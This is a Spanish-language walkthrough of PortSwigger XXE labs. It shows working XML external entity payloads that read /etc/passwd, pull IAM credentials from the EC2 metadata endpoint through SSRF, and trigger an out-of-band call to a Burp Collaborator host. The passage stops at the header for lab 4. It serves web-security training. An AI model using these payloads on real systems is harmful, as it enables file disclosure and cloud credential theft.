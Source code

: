 ```yaml
---
layout: default
title: "XML external entity (XXE) injection - PortSwigger"
permalink: /xxe-ps/
---
```


# XML external entity (XXE) injection - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

## Índice



## 1. Lab: Exploiting XXE using external entities to retrieve files

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

Para resolver el laboratorio, inyecte una entidad externa XML para recuperar el contenido del /etc/passwdarchivo.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.

![](img1.png)

Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Y Lo probamos en el paquete para verificar si existe una respuesta válida.

![](img2.png)

Ahora, vamos al home para verificar que completamos el laboratorio.

![](img3.png)

## 2. Lab: Exploiting XXE to perform SSRF attacks

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

El servidor de laboratorio está ejecutando un punto final de metadatos EC2 (simulado) en la URL predeterminada, que es http://169.254.169.254/. Este punto final se puede utilizar para recuperar datos sobre la instancia, algunos de los cuales pueden ser confidenciales.

Para resolver el laboratorio, aproveche la vulnerabilidad XXE para realizar un ataque SSRF que obtenga el secret access key de IAM del servidor desde el punto final de metadatos EC2.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.

![](img4.png)

Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Y enviamos el paquete, observamos lo siguiente:

![](img5.png)

Recibimos como respuesta el string **latest**, lo agregamos a la url de la ip a la que queremos acceder y obtenemos la siguiente respuesta:

```
PAYLOAD: <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
RESPUESTA: "Invalid product ID: meta-data"
```

Y volvemos a agregar la respuesta en la url del payload y obtenemos la siguiente respuesta:

```
"Invalid product ID: iam"
```

Y seguimos agregando todos los que nos sugiere hasta tener el siguiente payload.

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

El cual nos devuelve la siguiente respuesta:

![](img6.png)

```
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-07T16:07:36.536751Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "mxjF9Xea2bZ9FpdxtCCU",
  "SecretAccessKey" : "wORR4gS3GaX0QzbXqFs7qAk7AyQkFvzYCVc48DDx",
  "Token" : "jy7FOMsOs523ituXLzFHQKLJsNYKdRfrCxkJFWJOqW6e9INmJ9fyn8dGi3olUWxkfkSXLdIuCFRdB6K03D56Rnrq0XYBSYqGrNt4gulNlfrSkMSxzsBwl8bzPSTXI2lTVjYAFgXbeB1U1VBPIiW243nEzoqsmUi4Zs8ZhqAqIsQ6hoZ30EMhrtbFxFNzdZMssvglji6r4CbsPxBxDb4yseYBZ3nLBUXEFIG47pXmQCwlXMfnLzKcRkBCRHSl2Dg2",
  "Expiration" : "2027-02-06T16:07:36.536751Z"
}"
```

Y los que nos piden es el **secret access key** el cual sería **wORR4gS3GaX0QzbXqFs7qAk7AyQkFvzYCVc48DDx**. Entramos al home del laboratorio desde el navegador para verificar que completamos el laboratorio.

![](img7.png)

## 3. Lab: Blind XXE with out-of-band interaction

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML pero no muestra el resultado.

Puede detectar la vulnerabilidad ciega XXE activando interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, use una entidad externa para hacer que el analizador XML emita una búsqueda de DNS y una solicitud HTTP a Burp Collaborator.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.

![](img8.png)

Entonces ahora lo que haremos será inciar el **Burp collaborator** y realizar una consulta con el siguiente payload basado en la estructura XML del paquete.

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://geyl1g8xhwzi53mt93v09dqgg7mxam.burpcollaborator.net"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

![](img9.png)

Como podemos ver, se realizó la consulta al sitio web generado con Burp Collaborator, aunque no existió ninguna respuesta por lado del servidor mas que el error de **Invalid product ID**. Entramos al home del laboratorio desde el navegador para verificar que completamos el laboratorio.

![](img10.png)

## 4. Lab: Blind XXE with out-of-band interaction via XML parameter entities

